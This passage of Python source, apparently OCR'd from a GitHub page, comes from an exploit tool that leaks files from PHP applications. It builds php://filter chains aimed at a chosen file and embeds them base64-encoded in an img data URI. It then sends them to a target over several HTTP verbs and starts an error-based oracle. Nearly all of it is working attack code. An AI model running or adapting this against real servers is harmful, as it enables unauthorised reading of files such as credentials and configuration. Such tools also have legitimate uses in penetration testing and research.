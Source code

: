 ```bash
            for i, element in enumerate(all_params):
                if i == len(all_params) -1:
                    temp[element] = filter_chain
                else:
                    temp[element] = {}
                    temp = temp[element]
            data = json_object
        else:
            data[self.parameter] = filter_chain
        return merge_dicts(data, self.data)

    """
    Returns the response of a request defined with all options
    """
    def req_with_response(self, s):
        if self.delay > 0:
            time.sleep(self.delay)

        filter_chain = f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'
        # DEBUG print(filter_chain)
        merged_data = self.parse_parameter(filter_chain)

        # Fix indentation: Encode filter chain in Base64
        encoded_bytes = base64.b64encode(filter_chain.encode('utf-8'))
        encoded_str = encoded_bytes.decode('utf-8')
        payload = f"<img src='data:image/png;base64,{encoded_str}'/>"
        merged_data[self.parameter] = payload  # Fixed indentation

        # Make the request, the verb and data encoding is defined
        try:
            if self.verb == Verb.GET:
                requ = self.session.get(self.target, params=merged_data)
                return requ
            elif self.verb == Verb.PUT:
                if self.json_input: 
                    requ = self.session.put(self.target, json=merged_data)
                else:
                    requ = self.session.put(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.DELETE:
                if self.json_input:
                    requ = self.session.delete(self.target, json=merged_data)
                else:
                    requ = self.session.delete(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.POST:
                if self.json_input:
                    requ = self.session.post(self.target, json=merged_data)
                else:
                    requ = self.session.post(self.target, data=merged_data)
                return requ
        except requests.exceptions.ConnectionError :
            print("[-] Could not instantiate a connection")
            exit(1)
        return None

    """
    Used to determine if the answer trigged the error based oracle
    TODO : increase the efficiency of the time based oracle
    """
    def error_oracle(self, s):
        requ = self.req_with_response(s)

```